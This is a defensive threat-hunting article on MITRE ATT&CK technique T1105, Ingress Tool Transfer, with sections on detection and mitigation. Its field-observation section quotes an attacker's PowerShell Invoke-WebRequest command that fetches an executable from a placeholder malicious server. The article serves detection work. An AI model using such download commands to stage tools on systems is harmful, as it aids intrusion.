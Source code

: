 ```yaml
---
title: "T1105 - Ingress Tool Transfer"
date: 2024-10-27T10:16:12+01:00
draft: false
---
```


| Revised Date | Comment |
| ------------ | ------- |
| 27.10.2024   | Added page |

## Introduction

**The Ingress Tool Transfer technique involves adversaries transferring files such as malware, scripts, or utilities from an external source to a compromised system. After the initial compromise, attackers may need additional tools to escalate privileges, establish persistence, or move laterally across the network. They use network protocols like HTTP, HTTPS, FTP, or SMB to download these tools.**

**Adversaries typically download their malicious payloads from command and control (C2) servers or compromised websites. The tools may be stored in remote locations such as cloud services or attacker-controlled servers. This method allows attackers to minimize the size and complexity of their initial payload, instead fetching additional tools as needed during the attack.**

## A note on ingress and egress

Before we dive into T1105, lets pause for a moment for a refresher on the terms ingress and egress:

| **Term**   | **Definition** | **Traffic Direction** | **Examples** | **Security Considerations** |
| ---------- | -------------- | --------------------- | ------------ | --------------------------- |
| **Ingress** | Traffic entering a network or system from external sources | Incoming (external → internal) | Web requests, Email traffic, File downloads | Ingress filtering to prevent unauthorized or malicious traffic from entering |
| **Egress**  | Traffic leaving a network or system to external destinations | Outgoing (internal → external)| Web requests, Data uploads, Emails to external addresses | Egress filtering to prevent data exfiltration or malicious traffic from spreading |

## How It Works

Once attackers gain access to a system, they need further tools to achieve their objectives, which often include stealing data, maintaining persistence, or performing lateral movement. These tools could be transferred into the victim's environment using methods like:

| Method | Example / Description |
| ------ | --------------------- |
| PowerShell commands | E.g., `Invoke-WebRequest` or `curl`) to download files. |
| Remote transfers | Via FTP, SMB, or HTTP/S from an external server to the compromised machine. | 
| File downloads |  Initiated by malware as part of a broader infection chain. | 

## Field Observations

In a scenario I was hunting for, I discovered an adversary using PowerShell to download several malicious tools from an external server. In all essence, the adversary used variants of this command to get their software suite in place: 

```powershell
Invoke-WebRequest "http://malicious-server.com/<toolname>.exe" -OutFile "C:\Users\<UsernameHere>\<toolname>.exe"
```

There were a few things that triggered my senses when I found these, those things were:

* Who uses Powershell and Invoke-WebRequest to download things?
* Why would someone download executables using this method? 
* Why did they place the executables in the root of the user home directory? 

A regular user has no use for using Powershell to download files to begin with. Besides, a user would normally download executables using a web-browser - and if they do so, the software would most likely end up in the "Downloads" folder. Clearly, I had something situation in my hands here.

## Detection

Detecting **Ingress Tool Transfer** requires monitoring both network activity and system behavior. Here are some key indicators to monitor:

### File System Changes

- Unusual file creation, especially in uncommon directories (e.g., `C:\Users\<username>\AppData\Local\Temp\`).
- Executable files or scripts being written to disk from external sources. Pay attention to where and ask yourself if it is normal to place it there.

### Command Execution

- PowerShell or Bash commands that download files using utilities like `Invoke-WebRequest`, `curl`, or `wget`.
- Pay attention to where such commands may download to. 

### Network Traffic

- Outbound network traffic to suspicious IP addresses or domains that are not typical for the organization’s environment.
- Large or unusual file transfers, especially over unmonitored or rarely used protocols like FTP.

### Anomalous Activity

- Suspicious or abnormal behavior by trusted applications or processes (e.g., browsers or system management tools downloading unexpected files).

## Mitigations

### Network Segmentation

- Restrict outbound traffic and limit access to external resources, especially on critical systems.

### Web Filtering

- Use DNS filtering or web proxies to block access to known malicious domains or IP addresses.

### Endpoint Protections

- Deploy endpoint detection and response (EDR) solutions that can flag anomalous file transfers or unauthorized download attempts.
- Implement application allow-listing solutions like AppLocker to prevent unauthorized applications from executing.

### Traffic Inspection

- Monitor and log HTTP/HTTPS and other file transfer protocols to identify and block suspicious downloads.

## MITRE ATT&CK Detection Category

This technique is categorized under the **Command and Control (TA0011)** tactic. It involves transferring tools into the compromised system for continued operations.

## References

- MITRE ATT&CK T1105: [Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)

